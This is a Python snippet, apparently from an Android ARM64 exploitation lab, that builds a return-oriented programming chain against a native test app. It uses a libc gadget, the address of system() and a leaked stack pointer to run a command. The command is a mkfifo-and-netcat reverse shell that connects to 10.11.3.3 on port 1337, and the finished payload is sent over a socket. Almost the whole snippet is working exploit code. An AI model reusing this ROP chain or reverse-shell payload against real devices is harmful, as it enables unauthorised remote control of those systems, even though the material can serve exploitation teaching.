 ```python
print"[!] Obtaining gadget address and system address from libc..."

# Address for the "pop" gadget (obtained via ropper): 0x000000000007f96c: ldp x0, x8, [sp, #0x20]; ldr x27, [sp, #0x10]; str wzr, [x8]; blr x27; 
pop_gadget = libcBase + 0x7f96c

# Junk data
junk = "A"*24
# ret2libc ROP chain setup
# system = "BBBBBBBB" # p system system - libcBase
# system_args = "CCCCsCCCC"
# system_args_addr = "DDDDDDDD"

# exploit = prefix + overflow + struct.pack("<Q", pop_gadget) + junk + system + "A" * 8 + system_args_addr + system_args

# libcBase + system_offset (obtained via "p system" in gdb)
system = libcBase + 0x62F3C #System = libcBase (vmmap libc.so address - system above)
print "[+] Gadget address " , hex(pop_gadget)
print "[+] System address " , hex(system)
print"---------------------------------------------"

# Use our leakedStackTop to find the beginning of our command on the stack
system_args_address = leakedStackTop + 0xB0
system_args = "C" * 32
system_args= "rm /data/data/com.example.mynativetest/f;/system/bin/toybox mkfifo /data/data/com.example.mynativetest/f;cat /data/data/com.example.mynativetest/f|/system/bin/sh -i 2>&1|/system/bin/toybox nc 10.11.3.3 1337 >/data/data/com.example.mynativetest/f"

# Build the exploit string
# ret2win exploit: exploit = prefix + overflow + pc
# ret2libc exploit: A*208 + gadget + A * 24 + system + 8 * junk + address_cmd + cmd_string
# Ropchain exploit: exploit = prefix + overflow + struct.pack("<Q",pop_gadget) + "b" * 24 + struct.pack("<Q",system) + "b" * 8 + struct.pack("<Q",system_args_address) + struct.pack("<Q", leakedStackTop) + system_args
# Reverse shell exploit
exploit = prefix + overflow + struct.pack("<Q", pop_gadget) + junk + struct.pack("<Q", system) + "A" * 8 + struct.pack("<Q", system_args_address) + struct.pack("<Q", system_args_address) + system_args

s.send(exploit)
```
